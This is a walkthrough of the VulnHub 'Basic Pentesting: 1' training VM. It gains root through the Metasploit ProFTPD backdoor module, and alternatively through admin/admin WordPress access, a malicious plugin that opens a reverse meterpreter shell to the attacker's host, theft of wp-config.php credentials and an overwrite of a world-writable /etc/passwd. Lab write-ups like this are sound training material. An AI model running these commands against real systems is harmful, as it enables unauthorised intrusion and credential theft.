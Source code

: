 # Basic Pentesting: 1
[VulnHub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)  
By Josiah Pierce  

* After the victim VM has been booted up, we are greeted with a login page that requests for the password of user `marlinspike`. We attempt a few common passwords such as `password` and `admin`, but we do not manage to login as expected.
* The IP address of the victim VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the login page, which is `10.0.2.4`. Thus, no nmap scans are needed.
![](/screenshots/basic-pentesting-1/Login.jpg)
* Alternatively, log in through the Guest Session, and then run `ifconfig` from the Terminal to obtain the victim's IP address.
* From our Kali VM, run `nmap -p- -A 10.0.2.4`, which means to scan all ports from 1 to 65535 (0 is excluded), and to enable OS detection, version detection (for the available services), script scanning, and traceroute:
![](/screenshots/basic-pentesting-1/scanAllPortsandServiceVersions.jpg)
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). This means that we can gain entry to the victim VM either via the FTP, SSH or HTTP service. The respective versions of these services are also listed.
* We will explore 2 methods from here onwards to gain root access, through either the FTP or HTTP service. The former takes lesser time (i.e. simpler).

# Method 1 (FTP service) #
* Searching `ProFTPD 1.3.3c` (which is the version of the FTP service) reveals that it has a [malicious backdoor that was added to the ProFTPD download archive](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor).
* Run `msfconsole`, then `search proFTPD` to find out if there is an available module that exploits the backdoor mentioned above:
![](/screenshots/basic-pentesting-1/msfconsoleProFTPD.jpg)
* Indeed there is such an available module, and we see that it is ranked as excellent as well.
* Run `use exploit/unix/ftp/proftpd_133c_backdoor` for us to use the module, and then `show options` to see that there are 2 parameters in the module: RHOST (value: empty) and RPORT (value: 21).
* Set RHOST to be our victim's IP address: `set RHOST 10.0.2.4`. RPORT 21 is correct since we are targeting the FTP service, hence it will not be modified.
* Run `show options` again to confirm that we have the correct parameters set:
![](/screenshots/basic-pentesting-1/backdoorOptions.jpg)
* Run `exploit`:
![](/screenshots/basic-pentesting-1/exploitRootFTP.jpg)
* And we are done! We have gained root access with a shell on the victim VM.

# Method 2 (HTTP service) #
* We will first have a go with the HTTP service, thus we visit `10.0.2.4` and find a web server running:
![](/screenshots/basic-pentesting-1/httpServicePage.jpg)
* Note: Viewing the page source reveals no additional information.
* Note: Some common files and pages which we tried such as /robots.txt, /admin, /login.php are invalid pages as well.
* Though the page said that "no content has been added yet", we will still run our tools to verify if this is really the case: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put `http://10.0.2.4` into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in `/usr/share/dirbuster/wordlists`. We will use `directory-list-lowercase-2.3-small.txt` for a start. We can stick with the existing 10 threads.
![](/screenshots/basic-pentesting-1/dirbusterSettings.jpg)
* While waiting for dirbuster to do its job (it will take a minute or two), we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22: `ssh marlinspike@10.0.2.4 -p 22`. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-admin`, `wp-content`, `wp-includes`, etc.
![](/screenshots/basic-pentesting-1/dirbusterResults.jpg)
* With `10.0.2.4/secret`, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly (notice that there is the message "Looking up vtsec at the bottom bar of the browser") and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, we will add an entry (`10.0.2.4 vtcsec`) into the Hosts file in Kali: open (`vim /etc/hosts`) and edit the file, before saving it. What this means is that the IP address of vtcsec is determined by us to be 10.0.2.4, and any  accesses to vtcsec will access 10.0.2.4, instead of trying to find out its IP address from a DNS server.
![](/screenshots/basic-pentesting-1/hostsFileEntries.jpg)
* Note: We could also add other mappings such as `10.0.2.4 vtcsec.com`, just in case there might be cases where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Note: I tried to navigate around the page and login without inserting the mapping into the Hosts file, while doing another run of this challenge, but this was challenging in itself because the links resolved to vtcsec as the domain. Even though I got to the login page and entered the admin set of credentials, pressing the `Log In` button meant that the credentials were being sent to an unknown domain, which got me nowhere.
* Reload `10.0.2.4/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site (/wp-login.php) and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* It is likely that we have administrative privileges since we can see the full WordPress panel on the left-hand side of the wp-admin page, and also from the fact that both the username and password spelt admin as well. To confirm that we have full access to the site, we check `Users`, and find that the user `admin` indeed has administrator privileges. Moreover, this was the only user on this WordPress platform.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by cloning and opening the Git repository from our Kali terminal, and execute `python wordpwn.py 10.0.2.15 4000 Y`. The format for the command is `wordpwn.py [LHOST] [LPORT] [HANDLER]`. The IP address is that of the Kali machine.
* The payload is then generated in the `malicious.zip` file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only documentation codes (commented) in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval function.
* Next, we head to `vtcsec/secret/wp-content/plugins/malicous/wetw0rk_maybe.php` on our browser to connect to the reverse shell.
* Heading back to our Kali terminal, we see that a meterpreter session has been opened, and enter `shell`. Executing `whoami`, we see that we are `www-data`. We have now successfully logged into the victim VM. Exit from the shell after this by running `exit`.
* Note: The default configuration of the owner is `www-data` in the Ubuntu configuration of Apache2, where this user is used by web servers for normal operation.
* From the reverse shell which we have gotten, we can go up 3 levels of directory to reach one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems". Clone the repository to the Kali VM, and run `git checkout 1_x`. We are using this branch's single shell script instead of the method from the master branch.
* On our meterpreter session, cd to `/var/www/html`, which hosts the WordPress page. We will now upload the unix-privesc-check tool to the victim VM: `upload ../unix-privesc-check/unix-privesc-check`.
* Give executable permissions to the script via chmod after running `shell` (interesting, if we were to run `chmod +x unix-privesc-check` before running `shell`, the file ends up having no permissions at all), and then run `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to output.txt, and we exit from shell. Next, run `download output.txt`.
* Alternatively, we can choose to have the result's output to the terminal (and not to redirect the output of the script to an external file), though I find this to be somewhat messy.
* As we see from the instructions at the top of the output file, if there is no string "WARNING" in the file, the script did not find any problems. Our first result from finding WARNING is that `/etc/passwd` can be written by anyone (world write).
![](/screenshots/basic-pentesting-1/writeablePasswdFile.jpg)
* Run `download /etc/passwd` from our meterpreter session.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Note: Removing the x might seem like an obvious choice to make the root account accessible without any password. However, it does not work here (*find out why!*), and we will still be prompted for a password when we run `su` as shown below.
* Run `openssl passwd -1 pass` (`pass` is our simple password here). `openssl passwd` computes the hash of our password typed at run-time in this case, e.g. `$1$H6IJSTRO$Fcs6RA7D6/wnJM6dK.GSV1` for `pass`. `-1` means the use of MD5 based BSD password algorithm 1.
* Alternatively, if you want to run the openssl command without letting your password be shown in plaintext on the terminal, as well as to confirm your password, run the same command without the last parameter being your password.
* Note: The hash of the password generated by openssl will differ with each run of the command.
* Replace the `x` with our hash value, save the file, and upload the file back to the victim VM: `upload passwd /etc/passwd`.
* Run `shell`, then `su`, but there is an error stating that su must be run from a terminal.
* Execute `python -c 'import pty; pty.spawn("/bin/bash")'` (or `/bin/sh`) to spawn a proper shell, then run `su`. Note: When called without arguments, su defaults to running an interactive shell as `root`.
* Enter our password created above (e.g. `pass`), and we have got root access!
